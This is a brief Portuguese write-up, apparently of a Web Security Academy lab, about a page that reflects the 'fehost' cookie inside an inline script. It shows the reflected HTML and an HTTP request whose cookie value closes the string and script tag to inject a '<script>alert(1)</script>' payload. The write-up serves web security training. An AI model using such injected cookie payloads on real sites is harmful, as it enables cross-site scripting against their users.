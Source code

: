 Neste lab ao fazer uma requisição é possível perceber que a página faz uso do cookie fehost ao retornar no html

```html
<script>
    data = {
        "host":"0a1b00dd04cf78fa83774b21001b002f.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

Escaping a string do fehost temos:

```
GET / HTTP/2
Host: 0a1b00dd04cf78fa83774b21001b002f.web-security-academy.net
Cookie: session=TrSMFdpEOsee901J6NzjBp2AoxMTFxad; fehost=prod-cache-02"}</script><script>alert(1)</script>
```

GG